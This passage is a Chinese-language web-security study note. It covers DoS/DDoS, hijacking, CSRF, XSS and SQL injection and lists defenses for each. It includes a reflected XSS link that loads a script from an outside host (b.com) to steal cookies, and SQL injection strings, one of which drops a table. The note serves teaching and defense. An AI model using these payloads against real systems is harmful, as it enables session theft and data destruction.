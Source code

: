 **DoS和DDoS攻击**

Dos(Denial of Service): 有一种情况是伪造大量不存在的ip发送请求给服务器，服务器三步握手时(syn,syn-ack,ack)收不到最后一步ack回应会有个长时间的半连接状态，消耗大量资源。如果消耗资源过多，则会服务过载而拒绝服务。常见的DOS攻击手段有TearDrop、Land、Jolt、IGMP Nuker、Boink、Smurf、Bonk、OOB

DDos(Distributed Denial of Service): 在分布式机器上安装大量Dos程序，统一攻击服务器，造成服务器拒绝服务。DDOS攻击手段有SYN Flood、ACK Flood、UDP Flood、ICMP Flood、TCP Flood、Connections Flood、Script Flood、Proxy Flood等;

DoS和DDoS防御：

```
关闭不必要的服务与端口
限制同时打开的Syn半连接数目
缩短Syn半连接的time out 时间
```

**域名劫持与http劫持**

域名劫持: 将域名重定向到别的服务器

http劫持：更改网页内容，使用https

**跨站请求伪造（CSRF）**

在a网站已登录的情况下，访问b网站，b网站伪造a网站的接口与参数发送到a网站的http请求。

常见防范方式有验证码、referer检查以及Anti CSRF Token。目前普片采用Anti CSRF Token。

Anti CSRF Token: 在form里随机生成一个session token，发送post请求时服务器验证token是否存在，不存在在为非法请求。

**跨站脚本攻击（xss）**

xss(Cross Site Script), 发生的条件是，站点需要将用户的输入内容显示在页面上。xss有两种类型：

反射型XSS：比如在a搜索网站上搜索关键词，伪造链接：`http://a.com/a.jsp?key=xss<script src=http://b.com/b.js></script>`, 用户点击之后会在a网站上面加载b的js，这样从而可以偷偷发送cookie或其他信息到b服务器上面。

持久型XSS：比如在a论坛上面回复一条带有脚本的留言，因为这段脚本是存储在服务器上，这样当用户访问相关内容时，都会自动加载这段js。

以上两者区别在于是否会欺骗用户去点击链接才能触发XSS代码。

XSS防御：

输入检查：对输入数据校验，如邮箱格式；对特殊字符做编码过滤，有时候会过滤掉正确字符，比较好的是在输出时过滤。

输出检查：对渲染到HTML中内容执行HtmlEncode，对渲染到JavaScript中的内容执行JavascriptEncode。

使用框架：一般web框架都会防范xss和sql注入。

**SQL注入**

SQL注入与XSS类似，都是由于用户提交的数据被当成命令来执行而造成的。

如比较简单的例子：

```
# 查询出所有用户信息
select id,no from user where id=2 or 1=1;
# 查询完用户之后会删除表
select * from user where username = 'leo'; drop table user--'
```

SQL注入的防御：
